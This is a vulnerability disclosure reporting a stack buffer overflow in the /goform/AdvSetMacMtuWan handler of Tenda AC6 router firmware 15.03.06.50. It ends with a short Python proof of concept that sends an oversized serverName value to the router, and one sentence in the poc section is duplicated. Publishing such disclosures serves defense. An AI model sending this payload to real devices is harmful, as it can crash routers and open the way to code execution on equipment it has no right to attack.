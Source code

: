 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A critical stack-based buffer overflow vulnerability has been discovered in the Tenda AC6 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/AdvSetMacMtuWan` HTTP request handler and can be exploited by remote attackers to achieve code execution or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow exists in the HTTP request handler for the `/goform/AdvSetMacMtuWan` endpoint. This function calls `check_param_changed` to parse the HTTP request. In the `check_param_changed` function, several buffer overflows may occur when the following parameters contain excessive data lengths: `wanMTU`, `wanSpeed`, `cloneType`, `mac`, `serviceName`, `serverName`, `wanMTU2`, `wanSpeed2`, `cloneType2`, `mac2`, `serviceName2`, `serverName2`.

![alt text](image-4.png)
![alt text](image-3.png)
![alt text](image.png)

## poc
By sending a request to the `/goform/AdvSetMacMtuWan` endpoint, we can trace the program entering the `fromAdvSetMacMtuWan` function which calls `check_param_changed` later. In `check_param_changed`, we set a breakpoint before the `strcpy` call at line 57. By dumping the memory, we can observe that the buffer overflow occurs.fore the `strcpy` call at line 57. By dumping the memory, we could find the buffer overflow occurs.



![alt text](image-1.png)

![alt text](image-2.png)


## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'serverName': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x110 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/AdvSetMacMtuWan", payload)
```

